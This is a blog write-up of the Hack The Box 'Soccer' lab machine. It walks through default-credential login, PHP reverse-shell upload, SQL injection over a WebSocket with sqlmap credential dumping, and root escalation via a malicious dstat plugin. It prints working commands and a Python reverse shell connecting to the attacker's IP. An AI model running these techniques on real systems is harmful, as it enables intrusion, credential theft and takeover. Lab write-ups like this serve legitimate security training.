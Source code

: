 ```yaml
---
layout: post
title:  "Hackthebox - Soccer writeup"
date:   2023-05-17 19:00:00 +0300
categories: HTB write-up
---
```


This has been a fun box. It is ranked as easy, but I would argue it is more difficult than that. Pawning the user takes some time and thought.
Initial foothold

As always, let's start with a port scan.
nmap scan
nmap scan

The only interesting finding for now is the http service on port 80, which is a simple static html page under the soccer.htb domain. Nothing much we can do about it. Let's brute force soccer.htb with gobuster.
gobuster directory brute-forcing
gobuster directory brute-forcing

We find only one subdirectory /tiny. It turns out to be a very simple php file management system. By vising the official Tiny file manager page on Github I can see a list of default passwords for admin and user. And of course they work...
default passwords for tiny file manager
default passwords for tiny file manager

When logging in as admin I can browse the webpage directory and I can see an upload function as well (not visible in the image below).  
tiny file manager admin homepage
tiny file manager admin homepage

I uploaded the php-reverse-shell.php script that can be found under /usr/share/webshells/php in kali linux. I set my IP adress and a preferable port number and uploaded the script. Before visiting the link where the script resides I start netcat locally on my machine.

nc -lvp 4444

When visiting the php link from my browser I get a shell as www-data on my kali machine. The next step is to get a user.
User flag

At this point I was using grep and find to check in interesting files and folders and see what services are being run on the machine. I particularly searched for references of "player" as that is the name of the user according the folder found under /home. What caught my eye is the following:
User flag
User flag

It clearly looks like another subdomain that I can access. I had to add the same configuration in my /etc/hosts file to be able to access the soc-player.soccer.htb subdomain.
Subdomain webpage
Subdomain webpage

I checked around and tried sql injection on the forms, but I didn't find anything interesting. When registering a user I see that under Tickets there is another form that I can use to interact with the server.

I routed traffic through Burp and I see that it is essentially a web socket connection being utilized to check validity of tickets.
Websocket protocol switch
Websocket protocol switch
websocket in Burp
websocket in Burp

At this point the websocket connection seemed the only alternative I had to move forward with this machine. I simply googled for websocket exploits as I didn't have much experience with websockets.

Eventually I found that sql injections could be suitable for my scenario and also I ended up reading this blog post:
Automating Blind SQL injection over WebSocket
Recently I have come across several CTF challenges on SQL injection over WebSocket. So I decided to build a vulnerable WebSocket web app for others to practice blind SQL injection over WebSocket. I spent a day building this on NodeJS from scratch which helped me better understand WebSocket implement…
Rayhan0x01’s BlogRayhan0x01

I followed the instructions as detailed in that blog post to run sqlmap over a websocket connection. All you need to do is use:

ws_server = "ws://soc-player.soccer.htb:9091"

and set

data = '{"id":"%s"}' % message

You then run the python script on your kali machine and execute sqlmap from another shell as follows:

sqlmap -u "http://localhost:8081/?id=1" -p “id”

sqlmap vulnerability finding
sqlmap vulnerability finding

Bingo, I found an sql injection vulnerability.

Eventually I found myself running a few extra sqlmap commands to get a dump of the database table holding the passwords.

sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump -D soccer_db -T accounts

Credentials dumping
Credentials dumping

Let's try to login as the user "player" using ssh.
ssh to machine with pawned user
ssh to machine with pawned user
Root flag

I download and run LinPeas to find privilege escalation paths.

I see dstat under group writable files and my user having executable rights for doas, which is a sudo alternative. My current user did not have sudo rights unfortunately.

dstat can run python plugins that found in specific directories, as per this post.

If I place a python reverse shell from here in /usr/local/share/dstat and then execute that  python script with dstat, by calling dstat using doas, I should get an elevated shell back at my attacker machine.

I saved the following python script as dstat-plugin in /usr/local/share/dstat.

import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.10.14.27",4444));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

pty.spawn("/bin/sh")

python reverse shell

I started a listener on my Kali machine.

nc -lvp 4444

Finally, I executed the python script with:

doas -u root /usr/bin/dstat  --plugin

root flag
Getting root on the machine